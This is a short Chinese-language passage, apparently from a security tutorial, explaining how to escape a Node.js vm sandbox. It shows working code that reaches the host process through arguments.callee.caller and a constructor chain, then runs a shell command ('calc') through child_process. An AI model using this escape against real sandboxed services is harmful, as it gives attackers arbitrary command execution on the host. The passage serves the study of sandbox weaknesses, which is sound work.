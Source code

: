 我们是不是可以想象一下，如果我们在沙箱内定义一个函数，在沙箱外调用这个函数，那么这个函数的 arguments.callee.caller 则会返回沙箱外的一个对象，那么我们我们就可以在沙箱内进行逃逸了

```plain
const vm = require('vm');
const func =
    `(() => {
    const a = {}
    a.toString = function () {
      const cc = arguments.callee.caller;
      const p = (cc.constructor.constructor('return process'))();
      return p.mainModule.require('child_process').exec('calc').toString()
    }
    return a
  })()`;

const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(func, context);
console.log("" + res);
```

[![](assets/1706496096-7088f74f4e44a577f44e3dd64f545b03.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126140542-efb6d4e0-bc10-1.png)
